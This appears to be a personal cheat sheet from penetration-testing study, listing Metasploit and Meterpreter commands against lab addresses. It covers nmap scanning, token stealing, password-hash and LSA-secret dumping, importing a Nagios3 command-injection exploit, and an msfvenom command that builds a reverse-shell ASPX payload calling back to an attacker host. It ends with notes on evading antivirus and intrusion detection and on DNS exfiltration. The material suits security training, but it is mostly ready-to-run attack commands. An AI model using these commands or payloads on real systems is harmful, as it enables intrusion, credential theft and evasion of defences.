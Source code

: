 # Meterpreter
MSF scanning target
msf6: `db_nmap -sV -p- -T5 -A 10.10.10.15`
We can thereafter query for `services` or `hosts`

We can steel tokens with `steal_token <nr>`

we can get suggestions for exploits: `post/multi/recon/local_exploit_suggester  `
We can get user id from session: `meterpreter > getuid`

### MSF - Dumping Hashes
`meterpreter > hashdump`
`lsa_dump_sam`

### MSF - Meterpreter LSA Secrets Dump
`meterpreter > lsa_dump_secrets`

From this point, if the machine was connected to a more extensive network, we could use this loot to pivot through the system, gain access to internal resources and impersonate users with a higher level of access if the overall security posture of the network is weak.

# Writing and Importing Modules
If we cannot find the exploit we're looking for, 
search in cli: `searchsploit nagios3 (name)`
Filter: `searchsploit -t Nagios3 --exclude=".py"`

Adding modules live: `cp ~/Downloads/9861.rb /usr/share/metasploit-framework/modules/exploits/unix/webapp/nagios3_command_injection.rb`
`msfconsole -m /usr/share/metasploit-framework/modules/`
`loadpath /usr/share/metasploit-framework/modules/`

```bash
msf6 > reload_all
msf6 > use exploit/unix/webapp/nagios3_command_injection 
msf6 exploit(unix/webapp/nagios3_command_injection) > show optio
```

# MSFVenom
Generate payload using `msfvenom`
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx`

# Firewall and IDS/IPS Evasion
Most AV relies on `signature-based Detection`, therefor, it is always good to have decent encoders to hide the malware. 

However, with the MSF6 release, msfconsole can tunnel AES-encrypted communication from any Meterpreter shell back to the attacker host, successfully encrypting the traffic as the payload is sent to the victim host. This mostly takes care of the network-based IDS/IPS. In some rare cases, we might be met with very strict traffic rulesets that flag our connection based on the sender's IP address. The only way to circumvent this is to find the services being let through. An excellent example of this would be the Equifax hack of 2017, where malicious hackers have abused the Apache Struts vulnerability to access a network of critical data servers. DNS exfiltration techniques were used to slowly siphon data out of the network and into the hackers' domain without being noticed for months. To learn more about this attack, visit the links below:
